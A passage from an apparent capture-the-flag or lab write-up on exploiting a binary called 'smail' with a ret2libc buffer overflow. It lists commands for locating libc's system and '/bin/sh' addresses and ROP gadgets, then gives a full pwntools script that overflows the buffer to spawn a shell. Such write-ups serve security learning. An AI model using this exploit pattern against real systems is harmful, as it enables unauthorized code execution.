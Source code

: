```bash
.data
.bss
.comment
```

We can try `ret2libc` buffer overflow, this is due to the message `limit(80)`, if we use the binary and do this, we can see the following:


![Pasted image 20250424145012.png](../../IMAGES/Pasted%20image%2020250424145012.png)

We got `segmentation fault (core dumped)`, we can do the following to get each address:

```
ldd smail
strings -a -t x /lib/x86_64-linux-gnu/libc.so.6 | grep /bin/sh
readelf -s /lib/x86_64-linux-gnu/libc.so.6 | grep system
ROPgadget --binary smail | grep rdi
objdump -d smail | grep ret
```

let's use the following payload:

```python
#!/usr/bin/env python3

from pwn import *

exploit = process('./smail')

base = 0x7ffff79e2000
sys = base + 0x4f550
shell = base + 0x1b3e1a

rop_rdi = 0x4007f3

payload = b'\x69' * 72
payload += p64(0x400556)
payload += p64(rop_rdi)
payload += p64(shell)
payload += p64(sys)
payload += p64(0x0)


exploit.clean()
exploit.sendline("2")
exploit.sendline(payload)
exploit.interactive()
```
